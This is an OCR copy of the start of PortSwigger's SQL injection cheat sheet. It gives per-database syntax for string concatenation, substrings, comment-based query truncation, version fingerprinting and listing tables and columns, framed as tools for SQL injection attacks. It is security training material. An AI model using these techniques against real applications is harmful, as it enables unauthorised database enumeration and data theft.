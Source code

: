 
[PORTSWIGGER SQL injection cheat sheet] https://portswigger.net/web-security/sql-injection/cheat-sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
--------------------

You can concatenate together multiple strings to make a single string.

| Oracle  `'foo'||'bar'` |
| Microsoft  `'foo'+'bar'` |
| PostgreSQL  `'foo'||'bar'` |
| MySQL  `'foo' 'bar'` 
        `CONCAT('foo','bar')` |

Substring
---------

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

| Oracle  `SUBSTR('foobar', 4, 2)` |
| Microsoft  `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL  `SUBSTRING('foobar', 4, 2)` |
| MySQL  `SUBSTRING('foobar', 4, 2)` |

Comments
--------

You can use comments to truncate a query and remove the portion of the original query that follows your input.

| Oracle  `--comment\` |
| Microsoft  `--comment\
/*comment*/` |
| PostgreSQL  `--comment\
/*comment*/` |
| MySQL  `#comment`\
`-- comment` 
`/*comment*/` |

Database version
----------------

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle  `SELECT banner FROM v$version\
SELECT version FROM v$instance\` |
| Microsoft  `SELECT @@version` |
| PostgreSQL  `SELECT version()` |
| MySQL  `SELECT @@version` |

Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle | `SELECT * FROM all_tables\
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| Microsoft | `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\
` |
| PostgreSQL | `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\
` |
| MySQL | `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

